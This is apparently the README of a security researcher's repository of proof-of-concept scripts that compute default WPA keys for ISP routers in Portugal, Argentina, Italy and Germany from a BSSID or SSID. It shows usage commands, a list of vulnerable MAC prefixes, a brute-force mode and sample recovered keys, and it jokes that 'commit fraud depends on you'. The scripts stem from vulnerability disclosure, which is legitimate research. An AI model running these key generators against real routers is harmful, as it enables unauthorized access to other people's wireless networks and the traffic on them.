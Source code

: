 Vulnerabilidades nos Routers ADB Italia da MEO. 
==

+ Este algoritmo permite gerar as chaves de encriptação WPA pré-definidas nos Routers da MEO com o SSID "ADSLPT-XXXXXX"

References
----

* Every script has its references in it. Please look at them for more info.


Contact
----

Coder  : Eduardo Novella    Twitter : [@enovella_](https://twitter.com/enovella_)
Website: (http://ednolo.alumnos.upv.es/)


Licence
----
GPLv3
http://gplv3.fsf.org/

More info
----

+ http://ednolo.alumnos.upv.es/?p=1883

Usage pirelli
----

	$ python pirelli.py -v
	pirelli.py 1.4 [2015-05-06] ----> http://www.ednolo.alumnos.upv.es

	$ python pirelli.py 
	usage: pirelli.py [-h] [-b [BSSID]] [-v] [-l | -a]

	>>> PoC WPA keygen for WiFi Networks deployed by Arnet in Argentina and MEO in
	Portugal. So far only WiFi networks with essids like WiFi-Arnet-XXXX or
	ADSLPT-ABXXXXX and manufactured by Pirelli are likely vulnerable. See
	http://ednolo.alumnos.upv.es/ for more details. Twitter: @enovella_ and email:
	ednolo[at]inf.upv.es. This software is used just as proof-of-concept, commit
	fraud depends on you!

	optional arguments:
	  -h, --help            show this help message and exit
	  -v, --version         show program's version number and exit
	  -l, --list            List all vulnerable targets
	  -a, --allkeys         Bruteforce mode

	required:
	  -b [BSSID], --bssid [BSSID]
	                        Target mac address

	(+) Help: python pirelli.py -b 74:88:8B:AD:C0:DE

	$ python pirelli.py -l
	[+] Possible vulnerable targets so far:
		 bssid: 00:08:27:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:13:C8:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:17:C2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:19:3E:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:1C:A2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:1D:8B:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:22:33:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:8C:54:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 30:39:F2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 74:88:8B:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 84:26:15:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: A4:52:6F:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: A4:5D:A1:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: D0:D4:12:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: D4:D1:84:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: DC:0B:1A:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: F0:84:2F:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX

	$ python pirelli.py -b 74:88:8B:AD:C0:DE
	[+] MAC     : 74:88:8B:AD:C0:DE
	[+] WPA key : 057mjyggor	SSID: WiFi-Arnet-XXXX (Argentina)
	[+] WPA key : 057mjygg  	SSID: ADSLPT-ABXXXXX  (Portugal)

	$ python pirelli.py -b 74:88:8B:AD:C0:DE -a
	[+] MAC     : 74:88:8B:AD:C0:DE

	[+] WPA keys for SSID: WiFi-Arnet-XXXX (Argentina)
	3c1nrhqy5z
	tugh1hcfog
	057mjyggor
	hj0wl2c2r7
	9yw6um3tc5
	ituqajo8iq
	wfti5odq8c

	[+] WPA keys for SSID: ADSLPT-ABXXXXX  (Portugal)
	3c1nrhqy  
	tugh1hcf  
	057mjygg  
	hj0wl2c2  
	9yw6um3t  
	ituqajo8  
	wfti5odq  




Usage fastweb
----

	$ python fastweb.py FASTWEB-1-00193EA1B2C3
	 --------------------------------------------------------------------
	|                       FastWeb Routers Wi-Fi                        |
	|--------------------------------------------------------------------|
	|                 Default WPA Key Algorithm Weakness                 |
	|               Eduardo Novella <@enovella_>                         |
	 --------------------------------------------------------------------
	fastweb.py 0.1.1    2013/07/10     [http://www.ednolo.alumnos.upv.es]


	[+] SSID   : FASTWEB-1-00193EA1B2C3
	[+] MAC    : 00193EA1B2C3 
	[+] MD5    : a37d4267f1d177f44d352978d95558a9
	[+] Extract: a37d4267 
	[+] Binary : 10100011011111010100001001100111
	[+] WPA key: 6b64756b04


Usage Alice AGPF
----

	$ python aliceAGPF.py 
	 --------------------------------------------------------------------
	|                PIRELLI Alice Gate VoIP 2 Plus Wi-Fi   (ITALY)      |
	|--------------------------------------------------------------------|
	|                 Default WPA Key Algorithm Weakness                 |
	|               Eduardo Novella <@enovella_>                         |
	 --------------------------------------------------------------------
	aliceAGPF.py 0.1.1    2013/07/10    [http://www.ednolo.alumnos.upv.es]


		 usage: python aliceAGPF.py [MAC]  [ESSID]

		 eg. python aliceAGPF.py  00:23:8E:01:02:03  Alice-96345678

	$ python aliceAGPF.py 00:23:8E:01:02:03  Alice-96345678
	 --------------------------------------------------------------------
	|                PIRELLI Alice Gate VoIP 2 Plus Wi-Fi   (ITALY)      |
	|--------------------------------------------------------------------|
	|                 Default WPA Key Algorithm Weakness                 |
	|               Eduardo Novella <@enovella_>                         |
	 --------------------------------------------------------------------
	aliceAGPF.py 0.1.1    2013/07/10    [http://www.ednolo.alumnos.upv.es]


	[+] SSID   : Alice-96345678
	[+] MAC    : 00238E010203 
	[+] SHA256 : 321948e63878d7dff841ee37ddd29ab3dd957589ef993df3286907f790bfc52a
	[+] WPA key: ep0ekcz7wtmj5uaz559tn9pr


Usage Alice Siemens
----

	$ python aliceSiemens.py 
	 --------------------------------------------------------------------
	|       Alicebox 1121 - Siemens  S1621-Z220-A           (GERMANY)    |
	|--------------------------------------------------------------------|
	|                 Default WPA Key Algorithm Weakness                 |
	|               Eduardo Novella <@enovella_>                         |
	 --------------------------------------------------------------------
	aliceSiemens.py 0.1.0    2013/07/10    [http://www.ednolo.alumnos.upv.es]


		 usage: python aliceSiemens.py [MAC] 

		 eg. python aliceSiemens.py  00:25:5E:01:02:03


	$ python aliceSiemens.py  00:25:5E:01:02:03
	 --------------------------------------------------------------------
	|       Alicebox 1121 - Siemens  S1621-Z220-A           (GERMANY)    |
	|--------------------------------------------------------------------|
	|                 Default WPA Key Algorithm Weakness                 |
	|               Eduardo Novella <@enovella_>                         |
	 --------------------------------------------------------------------
	aliceSiemens.py 0.1.0    2013/07/10    [http://www.ednolo.alumnos.upv.es]


	[+] SSID     : Alicebox????
	[+] MAC WLAN : 00255E010203 
	[+] MAC ETH  : 00255E010202
	[+] MD5 snip : 9fe800c9b138
	[+] WPA key  : OWZlODAwYzliMTM4


